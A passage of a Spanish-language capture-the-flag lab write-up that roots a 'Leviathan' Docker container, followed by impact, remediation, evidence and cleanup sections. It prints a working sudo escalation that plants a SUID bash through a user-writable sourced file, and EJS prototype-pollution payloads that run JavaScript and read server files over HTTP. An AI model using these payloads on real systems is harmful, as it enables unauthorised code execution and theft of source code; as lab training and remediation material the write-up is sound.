

> El kernel mostrado por `uname -a` es el del host porque el contenedor Docker
> comparte el kernel de Kali. El hostname y el UID sí corresponden al
> contenedor.

```bash
ls -la /home/leviathan; cat /home/leviathan/user.txt
```

```text
-r-------- 1 leviathan leviathan 35 Apr 15  2026 user.txt
Leviathan{REDACTED}
```



## 7. Escalada de privilegios

### 7.1 Enumeración de sudo

```bash
sudo -l
```

```text
Matching Defaults entries for leviathan on e27cbd55ae81:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User leviathan may run the following commands on e27cbd55ae81:
    (root) NOPASSWD: /opt/scripts/backup.sh
```



### 7.2 Análisis del script de backup

```bash
cat /opt/scripts/backup.sh
```

El fragmento importante es:

```bash
BACKUP_DIR="/tmp/backups"
LOG_FILE="/tmp/backup.log"

mkdir -p $BACKUP_DIR

if [ -f /home/leviathan/.backup_config ]; then
    source /home/leviathan/.backup_config
fi

tar czf $BACKUP_DIR/app_backup_$(date +%s).tar.gz /app 2>/dev/null
```

El script se ejecuta como root y hace `source` de un archivo que pertenece a
`leviathan` y que este puede modificar. No hay validación de contenido ni
restricción de propietario. Es una escalada directa de usuario a root.



### 7.3 Ejecución como root

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > ~/.backup_config
cat ~/.backup_config
```

```text
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```



```bash
sudo /opt/scripts/backup.sh
ls -l /tmp/rootbash
```

```text
Backup completed.
-rwsr-sr-x 1 root root 1234376 Nov 18 00:16 /tmp/rootbash
```



```bash
/tmp/rootbash -p
id; whoami
```

```text
uid=1000(leviathan) gid=1000(leviathan) euid=0(root) egid=0(root) groups=0(root),1000(leviathan)
root
```



## 8. Flag de root

```bash
cat /root/root.txt
```

```text
Leviathan{REDACTED}
```



### 8.1 Validación de ambas flags

Tras introducir las dos flags en el panel del laboratorio (`startlab.sh`), este
confirmó ambas validaciones y mostró el mensaje de finalización. En esta versión
pública las flags aparecen difuminadas:



## 9. Impacto

- **Ejecución remota de código no autenticada** sobre el servicio web, como el
  usuario `leviathan`.
- **Escalada a root** dentro del contenedor mediante un script sudo que confía
  en un archivo controlado por el usuario.
- Compromiso total de las flags y de la aplicación. El contenedor queda bajo
  control del atacante; no se evaluó un escape del contenedor hacia el host,
  que queda fuera del alcance de este laboratorio.
- La misma cadena permitiría modificar la aplicación, persistir, acceder a
  secretos del proceso Node y pivotar hacia otros servicios de la red Docker
  si existieran.

## 10. Remediación

### 10.1 Eliminar la Prototype Pollution

- Sustituir `merge()` por una fusión segura que rechace explícitamente las
  claves `__proto__`, `constructor` y `prototype`, o que use
  `Object.create(null)` y `Object.hasOwn()`.
- Validar el JSON con un esquema de allowlist (por ejemplo, `zod`, `joi` o
  `ajv`) que solo permita las claves y tipos esperados (`theme` como string,
  etc.).
- No fusionar datos controlados por el usuario en objetos que luego se usan
  como opciones de Express/EJS.
- Mantener EJS en **3.1.10 o superior** y ejecutar `npm audit`/SCA en CI. La
  versión 3.1.9 está afectada por CVE-2024-33883.
- Considerar `Object.freeze(Object.prototype)` o un entorno con
  `--frozen-intrinsics` como defensa en profundidad, sin sustituir la
  validación de entrada.

### 10.2 Endurecer el servicio

- Ejecutar Node como un usuario sin privilegios y sin sudo (el proceso ya
  corre como `leviathan`; el problema es que ese usuario tiene una regla sudo).
- Eliminar la regla `NOPASSWD` para `backup.sh` o reescribir el script para
  que no haga `source` de archivos del usuario. Si se necesita configuración,
  usar un archivo propiedad de root, permisos `0600`, formato estricto y
  validación.
- Evitar binarios SUID creados por scripts; monitorizar `/tmp` y los cambios de
  bits SUID.
- Aplicar mínimo privilegio al contenedor: `--read-only`,
  `--security-opt no-new-privileges`, usuario no root, seccomp/AppArmor y
  límites de recursos.
- Añadir detección/WAF para patrones `__proto__`, `constructor.prototype`,
  `escapeFunction` y `client` en JSON, y alertas sobre peticiones anómalas a
  `/api/profile`.

## 11. Evidencias

| Evidencia | Archivo |
|---|---|
| Escaneo de puertos | `screenshots/01-recon-nmap.png` |
| Cabeceras HTTP | `screenshots/02-recon-http-headers.png` |
| API de perfil | `screenshots/03-recon-api-profile.png` |
| Descubrimiento del endpoint | `screenshots/04-recon-endpoint-discovery.png` |
| Métodos permitidos | `screenshots/05-recon-methods.png` |
| Payload de pollution | `screenshots/08-pp-ejs-payload.png` |
| Listener | `screenshots/09-listener.png` |
| POST vulnerable | `screenshots/10-pp-post.png` |
| Disparo del render | `screenshots/11-trigger-render.png` |
| Reverse shell | `screenshots/12-shell-connected.png` |
| Identidad del shell | `screenshots/13-shell-id.png` |
| Flag de usuario | `screenshots/14-user-flag.png` |
| `sudo -l` | `screenshots/15-sudo-l.png` |
| `backup.sh` | `screenshots/16-backup-script.png` |
| `.backup_config` | `screenshots/17-backup-config.png` |
| Backup como root | `screenshots/18-sudo-backup.png` |
| Shell root | `screenshots/19-root-shell.png` |
| Flag de root | `screenshots/20-root-flag.png` |
| Limpieza del objetivo | `screenshots/21-cleanup-target.png` |
| Validación de ambas flags | `screenshots/22-validacion-flags.png` |

Artefactos adicionales en `evidence/`:

- `evidence/user_flag.txt`, `evidence/root_flag.txt`
- `evidence/nmap.txt`, `evidence/http-headers.txt`,
  `evidence/api-profile.json`
- `evidence/exploit-payload.json`, `evidence/cleanup-payload.json`
- `evidence/prototype-pollution-poc.md` y su salida
- `evidence/server-merge-snippet.js`,
  `evidence/ejs-gadget-snippet.txt`
- `evidence/command-log.md`, `evidence/target-notes.md`
- `evidence/blackbox-*.json`, `evidence/blackbox-hashes.txt` y
  `evidence/blackbox-method.md`

## 12. Limpieza del laboratorio

Después de capturar las flags se eliminaron los artefactos creados en el
objetivo (`/tmp/rootbash`, `/home/leviathan/.backup_config`,
`/tmp/backup.log` y `/tmp/backups`) y se restauró el prototipo contaminado del
proceso Node con un payload de limpieza. Se verificó que el dashboard, la API
y el endpoint `POST` volvieran a responder con normalidad.



## Referencias

- CVE-2024-33883 — EJS: falta de protección contra contaminación de
  prototipo, corregido en 3.1.10.
- GHSA-ghr5-ch3p-vcr6 — *ejs lacks certain pollution protection*.
- CVE-2022-29078 — RCE previa en EJS mediante `outputFunctionName`,
  antecedente del gadget de opciones de render.
- MITRE ATT&CK T1190 — Exploit Public-Facing Application.
- NIST SP-DEV-002 — Software Security Assessor.

## Anexo A — Lectura del código por HTTP (validado)

Este anexo demuestra una variante sin shell: el gadget de EJS lee archivos y los
devuelve en el cuerpo de la respuesta. Se ejecutó contra el servicio en vivo el
2026-11-18 y se dejó el objetivo limpio.

### A.1 Detección sin código fuente

El detector clásico `json spaces` de Express no funciona en esta aplicación:
Express 4.18.2 recorre `app.settings` hasta antes de `Object.prototype` en
`app.set()`, por lo que ignora la propiedad heredada. El indicador fiable es el
propio gadget de EJS: se contaminan `client` y `escapeFunction` con un marcador
inocuo y se solicita `/`.

```bash
jq -cn --arg e "1;return 'LEVIATHAN_PP_MARKER';" \
  '{"__proto__":{"client":true,"escapeFunction":$e}}' > /tmp/bb-marker.json

curl -s -X POST -H 'Content-Type: application/json' \
  --data @/tmp/bb-marker.json http://172.17.0.2/api/profile
curl -s http://172.17.0.2/
```

```text
{"status":"Profile updated"}
LEVIATHAN_PP_MARKER
```

La respuesta ya no es el dashboard: EJS compiló el valor contaminado de
`escapeFunction` y ejecutó el `return`.

### A.2 Lectura del código por la respuesta HTTP

En lugar de una reverse shell, el mismo gadget lee archivos y los devuelve como
cuerpo de la respuesta. El proceso Node corre como `leviathan` y puede leer
`/app`.

```bash
jq -cn --arg e "1;return process.mainModule.require('fs').readFileSync('/app/server.js','utf8');" \
  '{"__proto__":{"client":true,"escapeFunction":$e}}' > /tmp/bb-read-server.json

curl -s -X POST -H 'Content-Type: application/json' \
  --data @/tmp/bb-read-server.json http://172.17.0.2/api/profile
curl -s http://172.17.0.2/ -o /tmp/blackbox-server.js
```

El archivo recuperado tiene este hash:

```text
fb22477db887587cdb64bc639fb9c323e741f5a25606e528cb7276a2af6a3917  /tmp/blackbox-server.js
```

De la misma forma se recuperaron `package.json` (SHA-256 `b6ef0901...`) y
`views/index.ejs` (7319 bytes, SHA-256 `b17d46b7...`), completando el código de
la aplicación. Los payloads exactos están en `evidence/blackbox-*.json`, los
hashes en `evidence/blackbox-hashes.txt` y el detalle en
`evidence/blackbox-method.md`.

### A.3 Limpieza y verificación

Se ejecutó un último payload que elimina las propiedades contaminadas y
devuelve una cadena vacía; después se verificó el servicio:

```bash
jq -cn --arg e "1;delete Object.prototype.client;delete Object.prototype.escapeFunction;delete Object.prototype['json spaces'];delete Object.prototype.theme;delete Object.prototype.x;return '';" \
  '{"__proto__":{"client":true,"escapeFunction":$e}}' > /tmp/bb-clean.json

curl -s -X POST -H 'Content-Type: application/json' \
  --data @/tmp/bb-clean.json http://172.17.0.2/api/profile
curl -s http://172.17.0.2/ -o /dev/null -w "%{http_code} %{size_download}\n"
```

Resultado: `200 0` al disparar la limpieza y, después, `GET / -> 200`
(7332 bytes), `GET /api/profile -> 200` (JSON compacto) y
`POST /api/profile -> 200`.

### A.4 Limitaciones

- El gadget requiere EJS < 3.1.10 (CVE-2024-33883) y que las opciones de
  render hereden de `Object.prototype`. En este laboratorio se cumple.
- Si el servicio ignorara el valor devuelto por el render, habría que usar
  exfiltración fuera de banda (DNS/HTTP) o una reverse shell.
- `json spaces` no es un detector universal: Express 4.18.2 lo mitiga al no
  consultar `Object.prototype` en `app.set()`.
